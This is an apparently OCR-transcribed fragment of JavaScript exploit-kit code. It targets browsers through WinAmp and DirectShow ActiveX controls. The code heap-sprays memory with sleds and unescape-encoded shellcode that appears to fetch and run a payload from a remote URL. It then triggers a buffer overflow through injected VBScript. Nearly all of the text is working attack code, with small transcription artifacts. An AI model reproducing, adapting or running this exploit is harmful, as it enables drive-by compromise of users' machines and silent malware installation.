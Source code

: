 ```javascript
                        if (CheckIP()) {
                            Complete();
                        } else {
                            aolwinamp();
                        }\
                        nreturn true;
                    }
                }
            } catch (e) {}
        }\
        ni++;
    }aolwinamp();
}function aolwinamp() {
    try {
        var obj = document.createElement('object');
        document.body.appendChild(obj);
        obj.id = 'IWinAmpActiveX';
        obj.width = '1';
        obj.height = '1';
        obj.data = './directshow.php';
        obj.classid = 'clsid:0955AC62-BF2E-4CBA-A2B9-A63F772D46CF';
        var shellcode = unescape("%uC033%u8B64%u3040%u0C78%u408B%u8B0C%u1C70%u8BAD%u0858%u09EB%u408B%u8D34%u7C40%u588B%u6A3C%u5A44%uE2D1%uE22B%uEC8B%u4FEB%u525A%uEA83%u8956%u0455%u5756%u738B%u8B3C%u3374%u0378%u56F3%u768B%u0320%u33F3%u49C9%u4150%u33AD%u36FF%uBE0F%u0314%uF238%u0874%uCFC1%u030D%u40FA%uEFEB%u3B58%u75F8%u5EE5%u468B%u0324%u66C3%u0C8B%u8B48%u1C56%uD303%u048B%u038A%u5FC3%u505E%u8DC3%u087D%u5257%u33B8%u8ACA%uE85B%uFFA2%uFFFF%uC032%uF78B%uAEF2%uB84F%u2E65%u7865%u66AB%u6698%uB0AB%u8A6C%u98E0%u6850%u6E6F%u642E%u7568%u6C72%u546D%u8EB8%u0E4E%uFFEC%u0455%u5093%uC033%u5050%u8B56%u0455%uC283%u837F%u31C2%u5052%u36B8%u2F1A%uFF70%u0455%u335B%u57FF%uB856%uFE98%u0E8A%u55FF%u5704%uEFB8%uE0CE%uFF60%u0455%u7468%u7074%u2F3A%u732F%u6C70%u696F%u6D74%u2E65%u6F63%u2E6D%u6E63%u662F%u2F67%u6F6C%u6461%u702E%u7068%u653F%u333D");
        var bigblock = unescape("%u0c0c%u0c0c");
        var headersize = 20;
        var slackspace = headersize + shellcode.length;
        while (bigblock.length < slackspace) bigblock += bigblock;
        var fillblock = bigblock.substring(0, slackspace);
        var block = bigblock.substring(0, bigblock.length - slackspace);
        while (block.length + slackspace < 0x40000) block = block + block + fillblock;
        var memory = new Array();
        for (var i = 0; i < 666; i++) {
            memory[i] = block + shellcode;
        }\
        ndocument.write('<SCRIPT language="VBScript">');
        document.write('bof=string(1400,unescape("%ff")) + string(1000,unescape("%0c"))');
        document.write('IWinAmpActiveX.ConvertFile bof,1,1,1,1,1');
        document.write('IWinAmpActiveX.ConvertFile bof,1,1,1,1,1');
        document.write('IWinAmpActiveX.ConvertFile bof,1,1,1,1,1');
        document.write('IWinAmpActiveX.ConvertFile bof,1,1,1,1,1');
        document.write('</SCRIPT>');
    } catch (e) {}directshow();
}function directshow() {
    var shellcode = unescape("%uC033%u8B64%u3040%u0C78%u408B%u8B0C%u1C70%u8BAD%u0858%u09EB%u408B%u8D34%u7C40%u588B%u6A3C%u5A44%uE2D1%uE22B%uEC8B%u4FEB%u525A%uEA83%u8956%u0455%u5756%u738B%u8B3C%u3374%u0378%u56F3%u768B%u0320%u33F3%u49C9%u4150%u33AD%u36FF%uBE0F%u0314%uF238%u0874%uCFC1%u030D%u40FA%uEFEB%u3B58%u75F8%u5EE5%u468B%u0324%u66C3%u0C8B%u8B48%u1C56%uD303%u048B%u038A%u5FC3%u505E%u8DC3%u087D%u5257%u33B8%u8ACA%uE85B%uFFA2%uFFFF%uC032%uF78B%uAEF2%uB84F%u2E65%u7865%u66AB%u6698%uB0AB%u8A6C%u98E0%u6850%u6E6F%u642E%u7568%u6C72%u546D%u8EB8%u0E4E%uFFEC%u0455%u5093%uC033%u5050%u8B56%u0455%uC283%u837F%u31C2%u5052%u36B8%u2F1A%uFF70%u0455%u335B%u57FF%uB856%uFE98%u0E8A%u55FF%u5704%uEFB8%uE0CE%uFF60%u0455%u7468%u7074%u2F3A%u732F%u6C70%u696F%u6D74%u2E65%u6F63%u2E6D%u6E63%u662F%u2F67%u6F6C%u6461%u702E%u7068%u653F%u343D");
    var bigblock = unescape("%u9090%u9090");
    var headersize = 20;
    var slackspace = headersize + shellcode.length;
    while (bigblock.length < slackspace) bigblock += bigblock;
```